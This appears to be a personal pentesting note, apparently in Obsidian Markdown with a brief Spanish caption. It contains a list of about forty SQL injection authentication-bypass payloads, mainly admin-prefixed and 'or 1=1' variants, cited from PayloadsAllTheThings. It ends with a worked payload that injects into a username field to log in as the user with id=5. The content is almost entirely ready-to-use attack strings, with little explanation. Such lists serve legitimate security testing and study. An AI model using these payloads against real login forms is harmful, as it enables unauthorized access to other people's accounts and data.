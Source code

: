 ```bash
' or 'x'='x
') or ('x')=('x
')) or (('x'))=(('x
" or "x"="x
") or ("x")=("x
")) or (("x"))=(("x
or 2 like 2
or 1=1
or 1=1--
or 1=1#
or 1=1/*
admin' --
admin' -- -
admin' #
admin'/*
admin' or '2' LIKE '1
admin' or 2 LIKE 2--
admin' or 2 LIKE 2#
admin') or 2 LIKE 2#
admin') or 2 LIKE 2--
admin') or ('2' LIKE '2
admin') or ('2' LIKE '2'#
admin') or ('2' LIKE '2'/*
admin' or '1'='1
admin' or '1'='1'--
admin' or '1'='1'#
admin' or '1'='1'/*
admin'or 1=1 or ''='
admin' or 1=1
admin' or 1=1--
admin' or 1=1#
admin' or 1=1/*
admin') or ('1'='1
admin') or ('1'='1'--
admin') or ('1'='1'#
admin') or ('1'='1'/*
admin') or '1'='1
admin') or '1'='1'--
admin') or '1'='1'#
admin') or '1'='1'/*
```

- [https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection#authentication-bypass](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection#authentication-bypass)

![[Pasted image 20221227153230.png]]

Ejemplo practico, inyeccion en el campo username para ingresar con el usuario id=5:

```bash
#payload
chris' or id=5)-- -
```
